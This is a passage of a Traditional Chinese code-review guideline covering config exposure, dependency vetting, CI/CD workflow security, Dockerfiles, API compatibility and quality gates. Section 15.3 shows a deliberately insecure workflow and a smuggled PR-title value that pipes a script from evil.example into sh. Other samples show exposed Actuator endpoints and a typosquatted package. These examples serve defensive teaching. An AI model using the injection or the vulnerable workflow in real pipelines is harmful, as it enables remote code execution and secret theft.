    include-stacktrace: never
    include-message: never
logging:
  level:
    root: INFO
```

```yaml
# ❌ CR-CFG-001：為了除錯方便公開所有 Actuator 端點，/actuator/env、/actuator/heapdump 會洩漏秘密
management:
  endpoints:
    web:
      exposure:
        include: "*"
server:
  error:
    include-stacktrace: always
logging:
  level:
    root: DEBUG
```

#### 🔍 15.1 審查與驗證

- **自動檢查：** 以 `@SpringBootTest(properties = "spring.profiles.active=prod")` 搭配 MockMvc 確認 `/actuator/env` 回 401／404。
- **人工審查問題：**
  1. 設定的變更會套用到哪些環境？有沒有為了除錯而放寬、之後忘記改回的設定？
  2. 新的設定值有預設值嗎？在正式環境沒有設定時會發生什麼？
- **AI 常見錯誤：** AI 在排除問題時常建議「暫時」把 `management.endpoints.web.exposure.include` 設為 `*`、把日誌等級調為 `DEBUG`，這些修改容易被一起提交。

### 15.2 相依套件

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CFG-002` | 必須 | 新增相依套件時，PR 必須說明用途、為什麼不使用既有的套件，並確認：名稱正確（不是拼字相近的仿冒套件）、仍在維護、授權符合公司政策、沒有已知的高風險弱點 | 🤖 GitHub Dependency Review／GitLab Dependency Scanning；🤖 OpenSSF Scorecard；👁 審查 PR 描述 |
| `CR-CFG-003` | 必須 | 鎖定檔（`package-lock.json`、`pnpm-lock.yaml`、Gradle lockfile）必須提交；CI 必須以鎖定檔安裝（`npm ci`），不得在 CI 中解析新版本 | 🤖 CI 使用 `npm ci`；👁 審查鎖定檔是否隨 `package.json` 一起變更 |

```yaml
# ✅ CR-CFG-002：GitHub Dependency Review，在 PR 中阻擋高風險弱點與不允許的授權
name: dependency-review
on:
  pull_request:
permissions:
  contents: read
  pull-requests: write
jobs:
  review:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/dependency-review-action@a1d282b36b6f3519aa1f3fc636f609c47dddb294 # v5.0.0
        with:
          fail-on-severity: high
          deny-licenses: AGPL-3.0-only, AGPL-3.0-or-later
          comment-summary-in-pr: on-failure
```

```markdown
<!-- ✅ CR-CFG-002：新增相依套件時，PR 描述中的評估紀錄 -->
## 新增相依套件
| 套件 | 版本 | 用途 | 評估 |
| --- | --- | --- | --- |
| `com.github.ben-manes.caffeine:caffeine` | 3.2.x（由 Spring Boot BOM 管理） | 12.3 的本機快取，需要容量上限與 TTL | Apache-2.0；最近一次發布 2026-08；OpenSSF Scorecard 8.1；無已知弱點；專案內沒有其他快取實作 |
```

```yaml
# ✅ CR-CFG-003：CI 以鎖定檔安裝；鎖定檔與 package.json 不一致時 npm ci 直接失敗（片段：只截取 steps）
      - uses: actions/setup-node@949feb2413d6458794dcd2491c4babbbce0c15c1 # v7.1.0
        with:
          node-version: "24"
          cache: npm
      - run: npm ci
      - run: npx eslint .
```

（片段：只截取 steps。❌ 寫法是在 CI 中執行 `npm install`：它會依 `package.json` 的版本範圍解析並改寫鎖定檔，每次建置可能安裝不同的版本。）

```text
❌ CR-CFG-002：AI 建議的套件名稱與真實套件只差一個字元
"dependencies": {
  "vue-router": "^4.6.3",
  "axois": "^1.12.0"        ← 真實套件是 axios；拼字相近的名稱可能是惡意套件
}
```

#### 🔍 15.2 審查與驗證

- **自動檢查：** Dependency Review（GitHub）或 Dependency Scanning（GitLab）在 PR 中顯示新增的套件、弱點與授權；附錄 F.3 記錄了以 `npm view <套件> name` 確認套件存在的方法。
- **人工審查問題：**
  1. 這個新套件真的存在嗎？名稱、發布者、下載量、原始碼儲存庫看起來正常嗎？
  2. `package.json` 改了，鎖定檔有一起改嗎？鎖定檔中有沒有不預期的新套件？
  3. 版本範圍是否過寬（例如 `*`、`latest`）？
- **AI 常見錯誤：** AI 有時會建議不存在的套件名稱（研究稱為「套件幻覺」，package hallucination）；攻擊者會註冊這些名稱植入惡意程式（slopsquatting）。AI 建議的每個新套件都要在官方套件庫確認存在且是預期的那一個。

### 15.3 CI／CD 工作流程

CI 工作流程能存取秘密、能推送程式碼、能發布套件，是攻擊者最想控制的地方。審查工作流程的變更時，要用審查「正式環境權限設定」的標準來看。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CFG-004` | 必須 | 工作流程必須宣告最小的 `permissions`（預設 `contents: read`，需要時才在工作層級增加）；不得使用 `write-all`，也不得依賴組織的預設權限 | 🤖 zizmor `excessive-permissions`（需 `--persona pedantic`）；👁 審查 `permissions` 區塊 |
| `CR-CFG-005` | 必須 | 第三方 Action 必須固定到完整的提交 SHA（並在註解標示版本）；GitHub 官方的 Action 至少固定主要版本，建議也固定 SHA，並以 Dependabot 或 Renovate 更新 | 🤖 zizmor `unpinned-uses`；🤖 GitHub 組織政策「Require actions to be pinned to a full-length commit SHA」 |
| `CR-CFG-006` | 必須 | 不得把不可信的輸入（PR 標題、分支名稱、議題內容等 `github.event.*`）直接放進 `run:` 指令，應先放入環境變數；使用 `pull_request_target` 或 `workflow_run` 的工作流程不得檢出並執行 PR 的程式碼 | 🤖 actionlint（untrusted input）；🤖 zizmor `template-injection`、`dangerous-triggers` |

```yaml
# ✅ CR-CFG-004、CR-CFG-005、CR-CFG-006：最小權限、固定 SHA、不可信輸入經由環境變數傳遞
name: pr-title-check
on:
  pull_request:
    types: [opened, edited, synchronize]
permissions:
  contents: read
jobs:
  title:
    runs-on: ubuntu-latest
    steps:
      - name: 檢查 PR 標題符合 Conventional Commits
        env:
          TITLE: ${{ github.event.pull_request.title }}
        run: |
          if ! printf '%s' "$TITLE" | grep -Eq '^(feat|fix|docs|refactor|perf|test|build|ci|chore|revert)(\([a-z0-9-]+\))?!?: .+'; then
            echo "::error::PR 標題不符合 Conventional Commits：$TITLE"
            exit 1
          fi
```

```yaml
# ❌ CR-CFG-004、CR-CFG-006：權限過大，且把 PR 標題直接嵌入 shell 指令
# 攻擊者把 PR 標題設為  a"; curl https://evil.example/x.sh | sh; echo "  即可在 CI 中執行任意指令
name: pr-title-check
on:
  pull_request_target:
permissions: write-all
jobs:
  title:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v7
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - run: echo "${{ github.event.pull_request.title }}" | grep -Eq '^(feat|fix)'
```

#### 🔍 15.3 審查與驗證

- **自動檢查：** actionlint 與 zizmor 在每個修改 `.github/workflows/` 的 PR 執行；`.github/` 目錄由平台團隊擔任 CODEOWNER（CR-GH-003）。附錄 F.3 以本節的 ❌ 範例實測：actionlint 報告 `expression`（不可信的輸入），zizmor 報告 `dangerous-triggers`、`template-injection` 與 `unpinned-uses`；但 `permissions: write-all` 在 zizmor 的預設模式下**不會**被報告，要加上 `--persona pedantic` 才會出現 `excessive-permissions`，因此權限仍需人工確認。
- **人工審查問題：**
  1. 這個工作流程能存取哪些秘密？在什麼事件觸發？fork 的 PR 能觸發它嗎？
  2. `run:` 中有沒有直接出現 `${{ github.event... }}`？
  3. 新增的 Action 是誰維護的？固定到 SHA 了嗎？
- **AI 常見錯誤：** AI 產生的工作流程幾乎都使用 `@v4` 這類可變標籤、不宣告 `permissions`，並直接在 `run:` 中使用 `${{ github.event.pull_request.title }}`；遇到 fork PR 無法讀取秘密時，常建議改用 `pull_request_target`，這正是最危險的修改。

### 15.4 容器與基礎設施即程式碼

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CFG-007` | 應該 | Dockerfile 應使用固定版本（建議固定 digest）的精簡基底映像、以非 root 使用者執行、不在映像中放入秘密；Kubernetes 與 Terraform 等 IaC 變更應以對應的工具檢查並附上 `plan` 或差異結果 | 🤖 hadolint；🤖 Trivy config／Checkov；👁 審查 `terraform plan` 輸出 |

```dockerfile
# ✅ CR-CFG-007：固定版本的 JRE 基底映像、以數字 UID 的非 root 使用者執行（Kubernetes 的 runAsNonRoot 才能驗證）、只複製建置產物
FROM eclipse-temurin:25-jre-alpine
RUN addgroup -S -g 10001 app && adduser -S -u 10001 -G app app
WORKDIR /app
COPY --chown=10001:10001 target/order-service.jar app.jar
USER 10001:10001
EXPOSE 8080
ENTRYPOINT ["java", "-XX:MaxRAMPercentage=75", "-jar", "/app/app.jar"]
```

```dockerfile
# ❌ CR-CFG-007：latest 標籤、以 root 執行、把整個工作目錄（含 .env）複製進映像
FROM openjdk:latest
COPY . /app
RUN cd /app && ./mvnw package
CMD java -jar /app/target/order-service.jar
```

#### 🔍 15.4 審查與驗證

- **自動檢查：** hadolint（附錄 F.3 以本節的 ❌ 範例確認會報告 `DL3007` 等規則）；Trivy 掃描映像弱點與設定。
- **人工審查問題：**
  1. 基底映像的版本固定了嗎？映像會以 root 執行嗎？
  2. `COPY . .` 會不會把 `.env`、`.git`、測試資料複製進映像？有 `.dockerignore` 嗎？
  3. IaC 的 `plan` 結果中，有沒有預期之外的刪除或取代（`-/+ destroy and then create replacement`）？
- **AI 常見錯誤：** AI 產生的 Dockerfile 常用 `latest` 標籤、在執行階段映像中保留建置工具、以 root 執行；`openjdk` 官方映像早已停止更新，AI 仍經常使用。

## 16. 審查重點：API 相容性與文件

### 16.1 API 契約與破壞性變更

API 一旦被其他系統使用，任何不相容的變更都可能讓呼叫端在部署當下失敗，而且失敗的是別的團隊、甚至別的公司的系統。審查 API 變更時，最重要的問題是：**目前的呼叫端在不修改任何程式的情況下，還能正常運作嗎？**

| 變更 | 相容嗎 | 說明 |
| --- | --- | --- |
| 新增端點 | ✅ | |
| 回應新增欄位 | ✅（呼叫端必須忽略未知欄位） | |
| 請求新增**選填**欄位 | ✅ | |
| 請求新增**必填**欄位 | ❌ | 舊的呼叫端沒有送這個欄位 |
| 刪除或改名欄位、端點 | ❌ | |
| 改變欄位型別或格式 | ❌ | 例如數字改字串、日期格式改變 |
| 放寬驗證（例如長度上限 100 改 200） | ✅（請求）／❌（回應，若呼叫端有長度假設） | |
| 收緊驗證、新增列舉值到回應 | ❌ | 呼叫端可能無法處理新的列舉值 |
| 改變錯誤碼或 HTTP 狀態碼 | ❌ | |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-API-001` | 必須 | 修改 API 的 PR 必須同時更新 OpenAPI 契約；CI 必須比對新舊契約，發現破壞性變更時失敗，除非 PR 已標示為破壞性變更（Conventional Commits 的 `!`）並經 API 擁有者核准 | 🤖 oasdiff `breaking --fail-on ERR`；🤖 CODEOWNERS 指定 API 擁有者 |
| `CR-API-002` | 應該 | 要移除的 API 應先標示為淘汰（OpenAPI `deprecated: true`，回應加上 `Deprecation` 與 `Sunset` 標頭），並公告移除日期；移除前應確認已沒有呼叫端（存取日誌） | 👁 審查契約；🤖 存取日誌統計 |

```bash
# ✅ CR-API-001：在 CI 中以 oasdiff 比對主幹與 PR 的 OpenAPI 契約，發現破壞性變更時失敗
git show origin/main:api/openapi.yaml > /tmp/openapi-base.yaml
oasdiff breaking /tmp/openapi-base.yaml api/openapi.yaml --fail-on ERR
```

```yaml
# ✅ CR-API-002：OpenAPI 3.1 中標示淘汰的端點，並說明替代端點與移除日期（片段：只截取一個 path）
paths:
  /api/orders/{id}/cancel-legacy:
    post:
      deprecated: true
      summary: 取消訂單（舊版，2027-03-31 移除）
      description: 請改用 POST /api/orders/{id}/cancel。回應包含 Deprecation 與 Sunset 標頭。
      operationId: cancelOrderLegacy
      parameters:
        - name: id
          in: path
          required: true
          schema:
            type: integer
            format: int64
      responses:
        "204":
          description: 已取消
```

（片段：只截取 `paths`；完整契約另有 `openapi`、`info` 等欄位。）

```text
❌ CR-API-001：oasdiff 1.33.0 對「取消 API 新增必填欄位 reason」回報的破壞性變更（實際執行結果，結束碼 1，見附錄 F.3）
1 changes: 1 error, 0 warning, 0 info
error	[new-required-request-property] at api/openapi.yaml
	in API POST /api/orders/{id}/cancel
		added the new required request property `reason`
```

#### 🔍 16.1 審查與驗證

- **自動檢查：** oasdiff（或 openapi-diff）在 CI 比對契約；契約測試（Pact、Spring Cloud Contract）驗證呼叫端的期望（見測試與品質保證指引第 8 章）。
- **人工審查問題：**
  1. 程式碼改了 API，契約有一起更新嗎？兩者一致嗎？（可以用 springdoc 從程式碼產生契約再比對）
  2. 有破壞性變更時，呼叫端是否已經準備好？部署順序是什麼？
- **AI 常見錯誤：** AI 修改 API 時很少同步更新 OpenAPI 文件；也常把「新增必填欄位」描述為「向後相容的改善」。4.2 的範例 PR 就是一個新增必填欄位的破壞性變更，作者在描述中正確地說明了影響與部署順序。

### 16.2 文件與變更紀錄

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-API-003` | 應該 | 改變使用方式、設定、部署或維運程序的 PR，應同時更新相關文件（README、設定說明、維運手冊、ADR、變更紀錄）；審查者應把文件當作變更的一部分審查 | 👁 審查文件的 diff；🤖 CI 檢查新增的設定鍵出現在設定說明文件中 |

```markdown
<!-- ✅ CR-API-003：CHANGELOG.md 依 Keep a Changelog 格式記錄使用者可見的變更 -->
## [Unreleased]

### Changed
- **破壞性變更**：`POST /api/orders/{id}/cancel` 新增必填欄位 `reason`（1–200 字）。未提供時回 400，錯誤碼 `ORDER_CANCEL_REASON_REQUIRED`。(#842)

### Deprecated
- `POST /api/orders/{id}/cancel-legacy` 將於 2027-03-31 移除，請改用 `POST /api/orders/{id}/cancel`。
```

```text
❌ CR-API-003：新增設定鍵卻沒有任何文件
PR #1052 feat(payment): 退款逾時改為可設定
  M  PaymentClientConfig.java     （新增 payment.read-timeout，預設 3 秒）
→ 維運人員不知道有這個設定，也不知道正式環境該設多少；README 的「設定說明」與維運手冊都沒有更新。
```

#### 🔍 16.2 審查與驗證

- **自動檢查：** 可以用腳本比對 `@ConfigurationProperties` 的鍵與 `docs/configuration.md` 中列出的鍵（Spring Boot 的 configuration processor 會產生 `spring-configuration-metadata.json`，可作為比對來源）。
- **人工審查問題：**
  1. 讀者只看文件，能正確使用這個變更嗎？
  2. 這個變更需要更新維運手冊嗎？（新的告警、新的設定、新的部署步驟）
- **AI 常見錯誤：** AI 產生的 README 常描述「理想中」的功能而非實際的行為，例如列出不存在的設定選項或指令；文件中的指令與設定鍵都要和程式碼核對。

## 17. 自動化與品質閘門

自動化檢查的目的，是讓人工審查只需要處理「人才能判斷的事」（CR-GOV-007）。本章列出每個 PR 都必須通過的品質閘門，並提供 GitHub Actions 與 GitLab CI 的完整範例。範例中的工作流程都經過 actionlint 與 GitLab CI JSON Schema 驗證（見附錄 F.3）。

### 17.1 品質閘門清單

| 閘門 | 檢查內容 | Java 工具 | 前端工具 | 本指引章節 |
| --- | --- | --- | --- | --- |
| 建置 | 可以編譯、打包 | Maven `verify` | `vite build` | — |
| 測試 | 單元、整合、架構測試 | JUnit、Testcontainers、ArchUnit | Vitest | 第 10 章 |
| 覆蓋率 | 新程式碼覆蓋率 | JaCoCo＋SonarQube | `@vitest/coverage-v8` | 10.3 |
| 格式 | 程式碼格式一致 | Spotless | Prettier | 1.4 |
| 靜態分析 | 程式碼品質規則 | Checkstyle、PMD、SpotBugs | ESLint、vue-tsc | 第 8、9、14 章 |
| SAST | 安全弱點模式 | CodeQL／GitLab SAST、FindSecBugs | CodeQL／GitLab SAST | 第 11 章 |
| SCA | 相依套件弱點與授權 | Dependency Review／Dependency Scanning | 同左 | 15.2 |
| 秘密掃描 | 提交中的秘密 | Gitleaks、平台的秘密掃描 | 同左 | 11.5 |
| CI 設定 | 工作流程安全 | actionlint、zizmor | — | 15.3 |
| PR 衛生 | 大小、描述、標題、風險標籤 | 附錄 C.4 | 同左 | 第 4 章 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-001` | 必須 | 上表的品質閘門必須在每個 PR 執行，且必須設定為受保護分支的**必要檢查**（required status checks）；只執行但不阻擋合併的檢查不算品質閘門 | 🤖 `gh api repos/{owner}/{repo}/rules/branches/main` 確認 `required_status_checks`；🤖 GitLab「Pipelines must succeed」 |
| `CR-AUTO-002` | 必須 | 品質閘門的門檻只能由 CODEOWNERS 指定的人修改；PR 中降低門檻（例如調低覆蓋率、把規則從 error 改為 warning、刪除必要檢查）必須在描述中說明並取得技術主管核准 | 🤖 CODEOWNERS 保護 CI 與工具設定檔；👁 審查設定的 diff |

```text
❌ CR-AUTO-001：檢查有執行，但沒有設定為必要檢查
PR #1066 的檢查結果：
  ✅ build
  ❌ spotbugs        （失敗，但不是必要檢查）
  ❌ dependency-review（失敗，但不是必要檢查）
  [Merge pull request] 按鈕可以按下
→ 失敗的檢查沒有阻擋合併；團隊很快會習慣忽略紅燈。
```

```text
# ✅ CR-AUTO-002：.github/CODEOWNERS 保護 CI 與工具設定，修改門檻需要平台團隊核准
/.github/workflows/          @example/platform-admins
/config/checkstyle/          @example/platform-admins @example/tech-leads
/config/pmd/                 @example/platform-admins @example/tech-leads
/sonar-project.properties    @example/platform-admins @example/tech-leads
/eslint.config.mjs           @example/platform-admins @example/frontend-leads
```

（片段：只截取 CI 與工具設定的規則，完整檔案見 18.3。）

#### 🔍 17.1 審查與驗證

- **自動檢查：** 每季以 API 列出主要程式庫受保護分支的必要檢查，與本節清單比對。
- **人工審查問題：**
  1. 這個 PR 有沒有修改 CI 設定、工具設定或必要檢查？是放寬還是收緊？
  2. 新增的檢查有沒有加入必要檢查清單？檢查的名稱改了嗎？（改名後舊的必要檢查會永遠等待）
- **AI 常見錯誤：** AI 為了讓 CI 通過，常建議在工作流程加上 `continue-on-error: true`、在 Maven 指令加 `-DskipTests`、`-Dcheckstyle.skip`，或把 `failOnViolation` 設為 `false`。

### 17.2 GitHub Actions 範例

下面的工作流程是 v2.0 範例的修正版：更新到現行的 Action 版本並固定 SHA、宣告最小權限、支援 merge queue、SonarQube 改用 `SONAR_TOKEN`（`sonar.login` 已淘汰），並取得完整歷史讓 SonarQube 能判斷新程式碼。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-003` | 必須 | 品質閘門工作流程必須：宣告最小權限、固定 Action 版本、同時觸發 `pull_request` 與 `merge_group`、在品質閘門失敗時讓工作失敗（不得使用 `continue-on-error` 掩蓋）；修改工作流程時必須通過 actionlint | 🤖 actionlint；🤖 zizmor |

```yaml
# ✅ CR-AUTO-003：.github/workflows/ci.yml
name: ci
on:
  pull_request:
  merge_group:
  push:
    branches: [main]
permissions:
  contents: read
concurrency:
  group: ci-${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          fetch-depth: 0            # SonarQube 需要完整歷史判斷新程式碼
          persist-credentials: false
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6 # v6.0.1
        with:
          distribution: temurin
          java-version: "25"
          cache: maven
      - name: 建置、測試與靜態分析
        run: ./mvnw -B verify spotless:check checkstyle:check pmd:check pmd:cpd-check spotbugs:check
      - name: SonarQube 分析與品質閘門
        if: github.event_name != 'merge_group'
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
          SONAR_HOST_URL: ${{ vars.SONAR_HOST_URL }}
        run: >-
          ./mvnw -B org.sonarsource.scanner.maven:sonar-maven-plugin:sonar
          -Dsonar.projectKey=order-service
          -Dsonar.qualitygate.wait=true

  codeql:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      security-events: write
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: github/codeql-action/init@2892aa5e19bbd11bc0cff5427e3b750a04d9e3c2 # v4.38.2
        with:
          languages: java-kotlin
          build-mode: none
      - uses: github/codeql-action/analyze@2892aa5e19bbd11bc0cff5427e3b750a04d9e3c2 # v4.38.2
```

```yaml
# ❌ CR-AUTO-003：v2.0 的工作流程。Action 版本過舊（v3、v6）、沒有宣告 permissions、
# 只檢出最近一個提交（SonarQube 無法判斷新程式碼）、sonar:sonar 沒有等待品質閘門，
# 最後一步無論結果如何都留言「自動化檢查通過」
name: PR Review Checks
on:
  pull_request:
    branches: [ main, develop ]
jobs:
  code-quality:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - uses: actions/setup-java@v3
        with:
          java-version: '21'
          distribution: 'temurin'
      - run: mvn clean test
      - run: mvn jacoco:report
      - env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
        run: mvn sonar:sonar
      - uses: actions/github-script@v6
        with:
          script: |
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: '✅ 自動化檢查通過！請進行人工審查。'
            })
```

#### 🔍 17.2 審查與驗證

- **自動檢查：** actionlint 與 zizmor（附錄 F.3 記錄了兩者對本節 ✅ 與 ❌ 範例的實際輸出）。
- **人工審查問題：**
  1. 工作流程失敗時，PR 真的無法合併嗎？
  2. 在 `merge_group` 事件中跳過的步驟（例如 SonarQube）是否在 `pull_request` 事件中執行過？
- **AI 常見錯誤：** AI 產生的 Actions 工作流程常使用過時的主要版本（`actions/checkout@v3`、`actions/setup-java@v3`），這些版本使用已淘汰的 Node.js 執行環境；也常在 SonarQube 步驟遺漏 `fetch-depth: 0`。

### 17.3 GitLab CI 範例

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-004` | 必須 | GitLab CI 必須以 `rules:` 控制工作在 MR 管線（`merge_request_event`）中執行，不得再使用已不建議的 `only:`／`except:`；並啟用「Pipelines must succeed」與「Merged results pipelines」 | 🤖 GitLab CI Lint／CI JSON Schema；🤖 專案設定 API |

```yaml
# ✅ CR-AUTO-004：.gitlab-ci.yml
include:
  - template: Jobs/SAST.gitlab-ci.yml
  - template: Jobs/Secret-Detection.gitlab-ci.yml

workflow:
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH
    - if: $CI_COMMIT_TAG

stages:
  - build
  - test
  - quality

variables:
  MAVEN_OPTS: "-Dmaven.repo.local=$CI_PROJECT_DIR/.m2/repository"

default:
  image: eclipse-temurin:25-jdk
  cache:
    key:
      files:
        - pom.xml
    paths:
      - .m2/repository/

verify:
  stage: test
  script:
    - ./mvnw -B verify spotless:check checkstyle:check pmd:check pmd:cpd-check spotbugs:check
  artifacts:
    when: always
    reports:
      junit: target/surefire-reports/TEST-*.xml
      coverage_report:
        coverage_format: jacoco
        path: target/site/jacoco/jacoco.xml

sonarqube:
  stage: quality
  needs: [verify]
  variables:
    GIT_DEPTH: "0"
  script:
    - ./mvnw -B org.sonarsource.scanner.maven:sonar-maven-plugin:sonar -Dsonar.projectKey=order-service -Dsonar.qualitygate.wait=true
  rules:
    - if: $SONAR_TOKEN
```

```yaml
# ❌ CR-AUTO-004：v2.0 的 GitLab CI（片段）。每個工作前都以 apt-get 安裝 JDK、使用 only:、
# dependency_scanning 報告格式不符（OWASP Dependency-Check 的 JSON 不是 GitLab 的報告格式）、
# sonar.login 已淘汰
before_script:
  - apt-get update -y
  - apt-get install -y openjdk-21-jdk

code-quality:
  stage: code-quality
  script:
    - mvn sonar:sonar -Dsonar.login=$SONAR_TOKEN
  only:
    - merge_requests
    - main

security-scan:
  stage: security
  script:
    - mvn dependency-check:check
  artifacts:
    reports:
      dependency_scanning: target/dependency-check-report.json
  only:
    - merge_requests
```

（片段：只截取三個區塊。）

#### 🔍 17.3 審查與驗證

- **自動檢查：** GitLab 的 CI Lint（專案的「Pipeline editor」或 `glab ci lint`）；離線時可用 GitLab 原始碼中的 CI JSON Schema 驗證（附錄 F.3）。
- **人工審查問題：**
  1. MR 管線與主幹管線分別會執行哪些工作？有沒有工作在 MR 中被意外略過？
  2. 安全掃描範本的結果是否出現在 MR 的安全小工具中？（需要 Ultimate 才能在 MR 中顯示完整結果）
- **AI 常見錯誤：** AI 產生的 GitLab CI 常混用 `only:` 與 `rules:`（同一個工作中同時使用會造成錯誤）、使用不存在的 `artifacts:reports` 鍵，或以 `allow_failure: true` 讓失敗的掃描不阻擋合併。

### 17.4 SonarQube 設定

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-005` | 應該 | SonarQube 應以「新程式碼」品質閘門（Sonar way 或團隊自訂）作為必要檢查，並在 CI 中等待閘門結果（`sonar.qualitygate.wait=true`）；認證使用 `SONAR_TOKEN` 環境變數，覆蓋率使用 XML 報告 | 🤖 品質閘門必要檢查 |

```properties
# ✅ CR-AUTO-005：sonar-project.properties（Maven 專案通常由 sonar-maven-plugin 自動取得路徑，只需設定差異）
sonar.projectKey=order-service
sonar.projectName=Order Service
sonar.sources=src/main/java
sonar.tests=src/test/java
sonar.java.binaries=target/classes
sonar.coverage.jacoco.xmlReportPaths=target/site/jacoco/jacoco.xml
sonar.exclusions=**/generated/**
sonar.qualitygate.wait=true
# 認證：由 CI 提供 SONAR_TOKEN 環境變數，不寫在檔案中
```

```properties
# ❌ CR-AUTO-005：v2.0 的設定。sonar.jacoco.reportPaths 已移除（需改用 XML 報告），
# sonar.java.coveragePlugin 已無作用，exclusions 排除 target 與 node_modules 沒有意義（它們不在 sources 中）
sonar.java.coveragePlugin=jacoco
sonar.jacoco.reportPaths=target/jacoco.exec
sonar.exclusions=**/target/**,**/node_modules/**
```

#### 🔍 17.4 審查與驗證

- **自動檢查：** SonarQube 分析結果中「Coverage on New Code」不是「—」，代表覆蓋率報告有被正確讀取。
- **人工審查問題：**
  1. 品質閘門是否只看新程式碼？既有的問題是否另有計畫處理？
  2. PR 有沒有新增 `sonar.exclusions` 或 `//NOSONAR`？理由是什麼？
- **AI 常見錯誤：** AI 產生的 SonarQube 設定常使用已淘汰的參數（`sonar.login`、`sonar.jacoco.reportPaths`）；遇到品質閘門失敗時，常建議擴大 `sonar.exclusions`。

### 17.5 工具警告的抑制

靜態分析工具會有誤報，抑制（suppress）誤報是正常的；但抑制也是讓真正問題溜過審查的最常見方式。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-006` | 必須 | 抑制工具警告必須範圍最小（單一行或單一方法，不得整個檔案或整條規則）、指名規則，並以註解說明為什麼是誤報；審查者必須確認每一個新增的抑制 | 🤖 `git diff` 搜尋抑制註解（附錄 C.4）；👁 審查理由 |

```java
// ✅ CR-AUTO-006：只抑制單一規則、範圍限於一個方法，並說明原因（片段：只截取方法）
// PMD AvoidCatchingGenericException：Spring Batch 的 SkipPolicy 介面規定接收 Throwable，
// 此處依例外類型決定是否略過，並未吞掉例外（不可略過的例外會重新拋出）。
@SuppressWarnings("PMD.AvoidCatchingGenericException")
public boolean shouldSkip(Throwable t, long skipCount) {
    return t instanceof InvalidOrderLineException && skipCount < MAX_SKIP;
}
```

（片段：只截取方法。）

```java
// ❌ CR-AUTO-006：在類別層級抑制所有 PMD 規則與所有 SpotBugs 警告，沒有任何說明
@SuppressWarnings("PMD")
@SuppressFBWarnings
public class OrderImportService {
    // ...
}
```

（片段：只截取類別宣告。）

#### 🔍 17.5 審查與驗證

- **自動檢查：** `git diff origin/main...HEAD | grep -E "^\+.*(@SuppressWarnings|@SuppressFBWarnings|NOSONAR|nosemgrep|eslint-disable|@ts-expect-error|CHECKSTYLE:OFF)"` 列出新增的抑制，附錄 C.4 會把結果寫入 PR 摘要。
- **人工審查問題：**
  1. 這真的是誤報嗎？還是工具找到了真正的問題？
  2. 抑制的範圍是不是最小？有指名規則嗎？
- **AI 常見錯誤：** AI 遇到工具警告時，最常見的「修正」就是加上抑制註解，而且常抑制整個檔案（`/* eslint-disable */`）或整個類別。

### 17.6 審查輔助工具

把工具的結果直接顯示在 PR 的對應行上，可以讓作者在送審前就看到問題，也讓審查者不必切換到 CI 日誌。常見做法有：GitHub 的 code scanning 註解（SARIF 上傳）與 Checks 註解、GitLab 的 Code Quality 報告（MR 中顯示新增的問題），以及 reviewdog、Danger 等通用工具。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUTO-007` | 可以 | 可以把靜態分析結果以行內註解顯示在 PR 中，但只應顯示「本 PR 新增」的問題，並限制數量，避免審查意見被機器訊息淹沒 | 👁 檢視 PR 中的機器意見數量 |

```yaml
# ✅ CR-AUTO-007：GitLab Code Quality 報告，只在 MR 中顯示新增的問題（片段：只截取 job）
eslint:
  stage: test
  image: node:24
  script:
    - npm ci
    - npx eslint . --format gitlab --output-file gl-codequality.json || true
    - npx eslint .
  artifacts:
    when: always
    reports:
      codequality: gl-codequality.json
```

（片段：`--format gitlab` 需要安裝 `eslint-formatter-gitlab`。第一次執行只產生報告，第二次執行讓工作在有錯誤時失敗。）

#### 🔍 17.6 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 機器意見是否多到讓人類意見被淹沒？
  2. 工具的行內註解與人類審查是否重複？
- **AI 常見錯誤：** 同時啟用多個 AI 審查工具與多個 lint 機器人時，同一個問題可能被提出三、四次。應選定一個主要的 AI 審查工具（第 19 章），其餘只在 CI 摘要中呈現。

## 18. 平台設定：GitHub 與 GitLab

本指引的流程規則大多要靠平台設定才能真正執行。「至少一位核准」寫在文件裡沒有用，必須在平台上設定成「不滿足就不能合併」。本章提供兩個平台的建議設定與可直接使用的範例，所有欄位名稱都已與官方 API 文件核對（GitHub REST API 描述檔、GitLab API 文件，查證日期 2026-10-08）。

### 18.1 平台功能對照

| 控制目標 | GitHub | GitLab | 本指引規則 |
| --- | --- | --- | --- |
| 必須透過 PR／MR 合併 | Rulesets「Require a pull request before merging」 | 受保護分支：Allowed to push = No one | `CR-GOV-001` |
